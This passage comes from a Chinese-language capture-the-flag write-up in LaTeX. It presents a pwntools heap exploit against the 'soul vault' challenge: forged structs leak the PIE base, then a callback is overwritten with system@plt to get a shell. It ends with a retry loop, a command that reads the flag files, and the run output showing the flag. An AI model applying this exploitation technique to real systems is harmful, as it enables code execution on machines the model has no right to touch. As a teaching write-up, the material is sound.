 \begin{lstlisting}[style=py]
    # ---- 4. forge #1：把 souls[1] 變成一台讀取機，偷 PIE ----
    forge1  = b'/bin/sh\x00' + b'\x00' * (0x20 - 8)
    forge1 += p64(s0 + 0x28)          # memory -> soul2->callback（裡面是 PIE+0x1289）
    forge1 += p64(0)                  # callback = 0（先不要呼叫）
    forge1 += p32(0) + p32(0)
    capture_raw(0x38, b'C', forge1[:-1])

    out  = inspect(1)
    raw  = re.search(rb'Memory: ([^\n]*)\n', out).group(1)
    if len(raw) != 6:
        raise RuntimeError('bad PIE leak (%d bytes)' % len(raw))
    pie  = u64(raw.ljust(8, b'\x00')) - CALLBACK_SOUL
    assert pie & 0xfff == 0, 'PIE base not page aligned'
    log.success('callback leak -> PIE base = %#x', pie)

    # ---- 5. 再一次把 S0/S1 放回 tcache ----
    release(2)

    # ---- 6. forge #2：callback = system@plt ----
    forge2  = b'/bin/sh\x00' + b'\x00' * (0x20 - 8)
    forge2 += p64(0)
    forge2 += p64(pie + SYSTEM_PLT)
    forge2 += p32(0) + p32(0)
    capture_raw(0x38, b'D', forge2[:-1])

    # ---- 7. inspect(1) -> system("/bin/sh") ----
    io.sendline(b'2')
    io.sendlineafter(b'Enter vessel index (0-7): ', b'1')
    return io

for attempt in range(10):
    io = start()
    try:
        io = exploit(io); break
    except Exception as e:                 # leak 被 0x00 截斷等情況 -> 重試
        log.warning('attempt %d failed: %s', attempt, e); io.close()

io.sendline(b'cat flag.txt flag /flag* 2>/dev/null; id')
print(io.revrepeat(2).decode(errors='replace'))
\end{lstlisting}

\begin{keybox}
 的高位 byte 是 ，但 ASLR 的位址有機率讓\textbf{中間}某個 byte 也是 
（例如位址是 ）。那時候字串會提早結束，你只會拿到 3\textasciitilde4 bytes。
\textbf{這不是 bug，是機率}。寫個重試迴圈，或改用  精確讀固定長度。
\end{keybox}

\subsection{執行結果}

\begin{lstlisting}[style=raw]
[+] heap = 0x5616bbddd000   souls[0] = 0x5616bbddd2a0   souls[1] = 0x5616bbddd310
[+] callback leak = 0x56168bb96289  ->  PIE base = 0x56168bb95000
[*] forged Soul @ 0x5616bbddd310 : name="/bin/sh" callback=system@plt (0x56168bb96120)

--- Vessel [1] ---
Name: /bin/sh
ID: 0x0
OWASP{local_test_flag_soul_vault}
uid=1001(kzzz) gid=1001(kzzz) groups=1001(kzzz),954(libvirt),958(docker),960(ollama),998(wheel)

[+] FLAG = OWASP{local_test_flag_soul_vault}
\end{lstlisting}

